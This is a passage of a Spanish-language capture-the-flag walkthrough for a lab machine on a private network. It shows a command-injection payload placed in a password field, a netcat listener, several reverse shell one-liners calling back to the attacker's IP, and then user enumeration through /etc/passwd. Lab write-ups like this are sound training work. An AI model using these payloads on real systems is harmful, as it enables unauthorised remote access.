```bash
# Reverse shell o acceso inicial
password: bash -c 'exec bash -i %26>/dev/tcp/192.168.100.24/443 <%261'
```

Si nos da la conexion, pero se ciera luego luego:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.24] from (UNKNOWN) [192.168.100.35] 59958
```

Ahora desde [revershell](https://www.revshells.com/) tendremos que probar con cual podemos ganar acceso:
```bash
nc 192.168.100.24 443 -e sh # NO funciona
sh -i >& /dev/tcp/192.168.100.24/443 0>&1 # NO funciono
```

Con esta si que ganamos acceso:
```bash
busybox nc 192.168.100.24 443 -e sh
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuarios del sistema
cat /etc/passwd | grep "sh"
root:x:0:0:root:/root:/bin/bash
test:x:1000:1000:test,,,:/home/test:/bin/bash
proadidas:x:1001:1001::/home/proadidas:/bin/bash
pronike:x:1002:1002::/home/pronike:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Si enumeramos los directorios de los usuarios vemos que podemos atravesar sus directorios:
```bash
ls -l /home

drwxr-xr-x  3 proadidas proadidas 4096 Apr 23  2024 proadidas
drwxr-xr-x  3 pronike   pronike   4096 Apr 23  2024 pronike
```

Revisando en el directorio del usuario **pronike**
```bash
-rw-r--r-- 1 pronike pronike   58 Apr 23  2024 nota.txt
```

Tenemos el siguiente contendio:
```bash
cat nota.txt 
Creo que proadidas esta detras del robo de mi contraseña
```
